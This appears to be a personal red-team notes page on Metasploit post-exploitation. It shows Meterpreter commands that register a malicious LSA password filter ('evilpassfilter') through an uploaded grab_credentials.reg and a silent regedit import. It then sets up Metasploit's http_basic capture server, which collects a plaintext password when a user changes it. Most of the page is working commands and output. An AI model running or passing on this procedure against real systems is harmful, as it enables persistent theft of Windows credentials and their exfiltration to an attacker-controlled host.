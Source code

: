 # Metasploit

## Modify The Registry Entry

Query the notification packages list.

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirassfm
```

 What you can't see here since Metasploit isn't showing the line breaks is that there are two there by default.

```
scecli
rassfm
```

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]
"Notification Packages"=hex(7):73,00,63,00,65,00,63,00,69,00,72,00,6e,00,\
  00,00,72,00,61,00,73,00,73,00,66,00,6d,00,72,00,6e,00,00,00,65,00,76,00,69,\
  00,6c,00,70,00,61,00,73,00,73,00,66,00,69,00,6c,00,74,00,65,00,72,00,00,00,\
  00,00
```

Upload the registry file then import it.

```
meterpreter > upload grab_credentials.reg .
[*] uploading  : grab_credentials.reg -> .
[*] uploaded   : grab_credentials.reg -> .\grab_credentials.reg
meterpreter > execute -Hf regedit.exe -a "/s grab_credentials.reg"
Process 2628 created.
```

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirnrassfmrnevilpassfilter
```

## Retrieve Credentials

### Web Server

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(http_basic) > set URIPATH /
URIPATH => /
msf auxiliary(http_basic) > run -j
[*] Auxiliary module execution completed
[*] Listening on 0.0.0.0:80...
[*] Using URL: http://0.0.0.0:80/
[*]  Local IP: http://192.168.92.106:80/
[*] Server started.
msf auxiliary(http_basic) > 
```

 Then we wait for a password to be changed.

```
msf auxiliary(http_basic) > 
[*] 192.168.92.106   http_basic - Sending 401 to client
[+] 192.168.92.106 - Credential collected: "jack:ASDqwe123" => /
```

### SMB Share

TODO: Do a step by step (refer to the backlink to file transfer)

---
## References

### Backlinks

- [[Password Change Notification|Malware Development: Password Change Notification]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Windows/Network Ports/SMB/Manual/Server|File Transfer and Data Exfiltration: Windows SMB]]